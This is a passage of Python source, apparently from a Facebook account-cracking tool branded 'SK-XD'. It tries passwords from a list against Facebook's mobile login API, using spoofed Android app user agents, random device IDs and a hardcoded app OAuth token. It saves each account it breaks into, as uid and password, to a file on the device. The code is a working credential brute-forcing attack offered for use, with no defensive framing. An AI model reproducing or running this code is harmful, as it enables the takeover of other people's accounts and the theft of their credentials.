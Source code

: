                         sys.stdout.write('\r\r\033[1;37m [SK-XD] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                        for pas in passlist:
                                application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))
                                application_version_code=str(random.randint(000000000,999999999))
                                fbs=random.choice(fbks)
                                gtt=random.choice(xxxxx)
                                gttt=random.choice(xxxxx)
                                android_version=str(random.randrange(6,13))
                                ua_string = f'Davik/2.1.0 (Linux; U; Android {str(android_version)}.0.0; {str(gtt)} Build/{str(gttt)} [FBAN/FB4A;FBAV/{str(application_version)};FBBV/{str(application_version_code)};FBDM/'+'{density=2.0,width=720,height=1280};'+f'FBLC/en_US;FBRV/{str(application_version_code)};FBCR/Movistar;FBMF/samsung;FBBD/samsung;FBPN/{str(fbs)};FBDV/{str(gtt)};FBSV/7.0;FBOP/1;FBCA/armeabi-v7a:armeabi;]'
                                device_id = str(uuid.uuid4())
                                adid = str(uuid.uuid4())
                                data = {'adid':adid,
                                        'email':ids,
                                        'password':pas,
                                        'cpl':'true',
                                        'credentials_type':'device_based_login_password',
                                        "source": "device_based_login",
                                        'error_detail_type':'button_with_disabled',
                                        'source':'login','format':'json',
                                        'generate_session_cookies':'1',
                                        'generate_analytics_claim':'1',
                                        'generate_machine_id':'1',
                                        "locale":"en_US","client_country_code":"US",
                                        'device':gtt,
                                        'device_id':adid,
                                        "method": "auth.login",
                                        "fb_api_req_friendly_name": "authenticate",
                                        "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler"}
                                head = {
                                        'content-type':'application/x-www-form-urlencoded',
                                        'x-fb-sim-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-type':'unknown',
                                        'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
                                        'user-agent':ua_string,
                                        'x-fb-net-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-bandwidth':str(random.randint(2e7,3e7)),
                                        'x-fb-connection-quality':'EXCELLENT',
                                        'x-fb-friendly-name':'authenticate',
                                        'accept-encoding':'gzip, deflate',
                                        'x-fb-http-engine':     'Liger'}
                                url = 'https://b-api.facebook.com/method/auth.login'
                                po = requests.post(url,data=data,headers=head,allow_redirects=False).text
                                q = json.loads(po)
                                if 'session_key' in q:
                                        uid=str(q['uid'])
                                        try:
                                                okk=open('/sdcard/SKSobuj-OK.txt','r').read()
                                                if uid in okk:pass
                                                else:
                                                        print('\r\r\033[1;32m [SK-OK] '+uid+' | '+pas+'\033[1;97m')
                                                        open('/sdcard/SKSobuj-OK.txt','a').write(uid+'|'+pas+'\n')
                                                        oks.append(ids)
                                                        break
                                        except:
                                                print('\r\r\033[1;32m [SL-OK] '+uid+' | '+pas+'\033[1;97m')
                                                open('/sdcard/SKSobuj-OK.txt','a').write(uid+'|'+pas+'\n')
                                                oks.append(ids)
                                                break
                                else: